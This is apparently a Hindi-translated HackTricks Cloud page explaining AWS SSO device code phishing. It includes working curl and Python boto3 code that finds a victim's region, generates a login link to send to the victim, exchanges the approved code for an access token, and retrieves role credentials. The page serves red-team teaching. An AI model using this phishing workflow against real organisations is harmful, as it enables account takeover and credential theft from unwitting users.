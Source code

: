 # AWS - पहचान केंद्र और एसएसओ अनअथेंटिकेटेड एनुम

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## AWS डिवाइस कोड फिशिंग

पहले [**इस ब्लॉग पोस्ट**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) में प्रस्तावित, यह संभव है कि AWS एसएसओ का उपयोग करके एक **लिंक** एक उपयोगकर्ता को भेजा जा सकता है जिसे अगर **उपयोगकर्ता स्वीकार करता है** तो हमलावर को एक **टोकन प्राप्त करने की सक्षमता होगी** और उपयोगकर्ता के द्वारा पहुंचे जा सकने वाले सभी भूमिकाओं तक पहुंच सकेगा **पहचान केंद्र** में।

इस हमले को करने के लिए आवश्यकताएं हैं:

* पीड़ित को **पहचान केंद्र** का उपयोग करने की आवश्यकता है
* हमलावर को पीड़ित द्वारा उपयोग किए जाने वाले **सबडोमेन** का पता होना चाहिए `<victimsub>.awsapps.com/start`

केवल पिछली जानकारी के साथ, **हमलावर को उपयोगकर्ता को लिंक भेजने की सक्षमता होगी** जिसे अगर **स्वीकार किया जाता है** तो **हमलावर को AWS उपयोगकर्ता** खाते पर पहुंच मिलेगी।

### हमला

1. **सबडोमेन खोजना**

हमलावर का पहला कदम है पीड़ित कंपनी द्वारा उनके पहचान केंद्र में उपयोग किए जाने वाले सबडोमेन का पता लगाना। इसे **OSINT** या **अनुमान + BF** के माध्यम से किया जा सकता है क्योंकि अधिकांश कंपनियां अपने नाम या उनके नाम का एक संशोधन यहाँ उपयोग करेंगी।

इस जानकारी के साथ, पहचान केंद्र को कॉन्फ़िगर किया गया क्षेत्र प्राप्त किया जा सकता है:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **शिकार के लिए लिंक उत्पन्न करें और इसे भेजें**

निम्नलिखित कोड चलाएं ताकि शिकार AWS SSO लॉगिन लिंक प्राप्त कर सके।\
डेमो के लिए, इस कोड को एक पायथन कंसोल में चलाएं और बाद में आपको टोकन प्राप्त करने के लिए कुछ ऑब्जेक्ट्स की आवश्यकता है:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **जब तक पीड़ित इसे स्वीकार नहीं करता, इंतजार करें**

अगर पीड़ित **AWS में पहले से लॉग इन था** तो उसे अनुमतियाँ देने की अनुमति देने की आवश्यकता होगी, अगर वह नहीं था, तो उसे **लॉग इन करने और फिर अनुमतियाँ देने की अनुमति देने की आवश्यकता होगी**।\
यह वर्तमान में प्रॉम्प कैसा दिखता है:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO एक्सेस टोकन प्राप्त करें**

अगर पीड़ित ने प्रॉम्प्ट को स्वीकार किया, तो उसे यह कोड चलाएं ताकि **उपयोगकर्ता का अनुकरण करते हुए एक SSO टोकन उत्पन्न किया जा सके**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO एक्सेस टोकन **8 घंटे के लिए मान्य** है।

5. **उपयोगकर्ता का अनुकरण करें**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### फिशिंग अनफिशेबल एमएफए

यह जानना मजेदार है कि पिछला हमला **"अनफिशेबल एमएफए" (webAuth) का उपयोग किया जा रहा है तो भी काम करता है**। यह इसलिए है क्योंकि पिछला **वर्कफ्लो उपयोग किए गए OAuth डोमेन से कभी नहीं निकलता**। अन्य फिशिंग हमलों की तरह जहां उपयोगकर्ता को लॉगिन डोमेन को बदलना होता है, इस मामले में डिवाइस कोड वर्कफ्लो तैयार है ताकि एक **कोड एक डिवाइस द्वारा जाना जाता है** और उपयोगकर्ता एक अलग मशीन में भी लॉगिन कर सकता है। यदि प्रॉम्प्ट स्वीकार किया जाता है, तो डिवाइस, **आदिक कोड को जानते हुए**, उपयोगकर्ता के लिए **क्रेडेंशियल प्राप्त करने में सक्षम** होगा।

इसके बारे में अधिक जानकारी के लिए [**इस पोस्ट की जाँच करें**](https://mjg59.dreamwidth.org/62175.html)।

### स्वचालित उपकरण

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## संदर्भ

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में पीआर जमा करके।

</details>
